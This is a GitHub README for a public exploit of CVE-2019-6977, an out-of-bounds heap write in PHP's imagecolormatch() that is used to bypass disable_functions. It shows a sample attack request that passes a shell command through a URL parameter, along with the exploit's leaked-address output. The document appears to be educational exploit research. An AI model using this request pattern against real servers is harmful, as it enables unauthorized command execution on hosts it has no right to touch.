 # imagecolormatch() OOB Heap Write exploit

## Info

My binary exploit for [CVE-2019-6977](https://nvd.nist.gov/vuln/detail/CVE-2019-6977).
Bug found by Simon Scannell from RIPS.

PHP bug is [here](https://bugs.php.net/bug.php?id=77270).
Helps you bypass PHP's `disable_functions` INI directive.

I commented **a lot** to help people that are new to binary PHP exploitation. Hope this helps.

## Output

```
GET http://target.com/exploit.php?f=0x7fe83d1bb480&c=id+>+/dev/shm/titi
```
```
Nenuphar.ce: 0x7fe834a10018
Nenuphar2.ce: 0x7fe834a10d70
Nenuphar.properties: 0x7fe834a01230
z.val: 0x7fe834aaea18
Difference: 0xad7e8

Exploit SUCCESSFUL !
```

From:https://github.com/cfreal/exploits/tree/master/CVE-2019-6977-imagecolormatch